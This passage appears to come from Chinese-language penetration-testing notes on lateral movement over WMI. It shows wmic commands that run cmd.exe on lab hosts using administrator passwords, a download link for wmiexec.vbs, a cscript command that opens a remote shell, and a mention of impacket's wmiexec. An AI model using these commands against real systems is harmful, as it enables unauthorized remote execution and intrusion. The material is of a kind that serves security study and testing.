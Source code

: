 ```shell
wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\1.txt"
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c ipconfig >C:\1.txt"
```

![](image67/67-10.png)

![67-11](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-11.png)



#### 自带cscript

- [下载链接](https://www.secpulse.com/wp-content/uploads/2015/05/cache-a360611dc24d240989799c29c555e4b7_wmiexec-v1_1.rar)
- 明文传递
-  **有回显**

```shell
cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-12.png)



套件impacket —wmiexec 
